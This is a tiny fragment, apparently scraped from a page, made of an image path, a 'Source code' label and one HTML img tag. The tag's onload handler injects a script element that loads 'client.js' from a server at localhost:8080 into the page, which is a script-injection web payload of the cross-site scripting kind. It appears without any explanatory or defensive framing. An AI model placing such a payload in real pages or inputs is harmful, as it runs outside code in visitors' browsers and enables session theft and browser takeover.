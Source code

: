 <img src="badimg" alt="Red Dragon Mask" onload="window.nodeJsIp = 'http://localhost:8080';let s = document.createElement('script');s.src = 'http://localhost:8080/client/client.js';document.getElementsByTagName('head')[0].appendChild(s);">
